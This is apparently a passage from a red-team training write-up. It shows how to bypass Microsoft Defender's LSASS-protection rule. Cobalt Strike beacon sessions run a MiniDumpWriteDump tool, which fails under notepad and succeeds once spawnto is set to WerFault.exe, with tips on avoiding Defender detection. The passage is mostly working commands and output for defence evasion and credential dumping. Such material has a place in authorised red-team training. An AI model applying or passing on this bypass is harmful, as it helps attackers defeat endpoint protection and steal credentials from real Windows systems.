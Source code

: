 ****_"This rule helps prevent credential stealing, by locking down Local Security Authority Subsystem Service (LSASS)."_

At its heart, this rule prevents you from opening a handle to LSASS with PROCESS_VM_READ privileges.  As an example, we can try and read LSASS using the **MiniDumpWriteDump** API.

```
beacon> getuid
[*] You are RTO2\amoss (admin)

beacon> spawnto x64 C:\Windows\System32\notepad.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\notepad.exe

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[X] MiniDumpWriteDump Failed
```
  

  I'm ensuring the spawnto is set to notepad because Defender will catch and kill the Beacon if rundll32 is used.

  

As with other ASR rules, not all processes appear to be blocked.  WerFault (Windows Error Reporting) is an application responsible for error reporting on Windows.  When an application crashes, werfault.exe is spawned as a child and collects debug information for reporting purposes.

By setting our spawnto to werfault, we can obtain a handle to LSASS which includes the permission to read its memory.

```
beacon> spawnto x64 C:\Windows\System32\WerFault.exe
[*] Tasked beacon to spawn x64 features to: C:\Windows\System32\WerFault.exe
[+] host called home, sent: 40 bytes

beacon> execute-assembly C:\Tools\MiniDumpWriteDump\bin\Debug\MiniDumpWriteDump.exe
[!] MiniDumpWriteDump Succeeded
```
